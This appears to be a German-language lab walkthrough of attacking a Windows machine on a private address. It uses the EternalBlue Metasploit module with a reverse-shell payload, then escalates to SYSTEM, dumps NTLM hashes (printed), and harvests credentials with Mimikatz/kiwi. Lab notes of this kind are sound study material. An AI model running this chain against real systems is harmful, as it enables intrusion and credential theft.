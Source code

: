 ```yaml
---
tags: cybersecurity
---
```



###### stachan 10.03.2021

---

## NMAP

Ein Scan gegen den Webserver:

`nmap -sV -vv --script vuln 192.168.20.250`

Neben Informationen zu offenen Ports gibt diese Abfrage auch Hinweise zu Vulnerabilities und damit verbundenen CVEs: CVE-2017-0143 (ms17-010) ist Eternal Blue.

![](https://i.imgur.com/qpm88Lb.png)


## METASPLOIT

```
msfdb init
msfconsole
db_status
```

Pfad zum Exploitation Code für ms17-010 finden: 

`search ms17`

![](https://i.imgur.com/DHdFAvu.png)


```
use exploit/windows/smb/ms17_010_eternalblue
show options
```

![](https://i.imgur.com/OmV7Q1T.png)


**Exploit ausführen:**

```
set RHOSTS 192.168.20.250
set ForceExploit true
set payload windows/x64/shell/reverse_tcp
exploit
```
Success:

![](https://i.imgur.com/NX9tkit.png)


![](https://i.imgur.com/qllpBMP.png)

`STRG + Z` verschiebt den Task in den Hintergrund.

![](https://i.imgur.com/oyqNGAl.png)


## METERPRETER

```
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
show options
```
Die Option SESSION muss geändert werden.

Aktive Sessions mit `sessions -l`

```
set lport 8080
set session 1
run
```

![](https://i.imgur.com/6uhlyvO.png)

`sessions -i 2`

![](https://i.imgur.com/UP2t4Wt.png)

Shell öffnen  (verlassen mit `exit`): 

![](https://i.imgur.com/XokUgdU.png)


`ps` listet alle Prozesse auf, gesucht wird ein Prozess, der unter `NT-AUTORITÄT\SYSTEM` läuft.

![](https://i.imgur.com/rHTRmpf.png)


Die eigene Session soll mit einer solchen PID eskaliert werden:

`migrate 984` (spoolsv.exe)

Das ist sehr instabil, bei einem Fehlschlag muss ganz von vorne begonnen werden...

![](https://i.imgur.com/52SkpmD.png)

## HASHDUMP

![](https://i.imgur.com/CwuPPSu.png)

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Gast:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
stachan:1000:aad3b435b51404eeaad3b435b51404ee:5b8d7c85ba1d5b3e93ef201047b0af2c:::
```

Diese Hashes können z.B. für eine Pass-the-Hash Attacke weiterverwendet werden.


## KIWI

Mimikatz ist Teil von Metasploit.

In Meterpreter:

```
load kiwi
creds_all
```


## Sophos Firewall

Die Sophos Firewall blockt alles:

![](https://i.imgur.com/jeTNpA3.png)


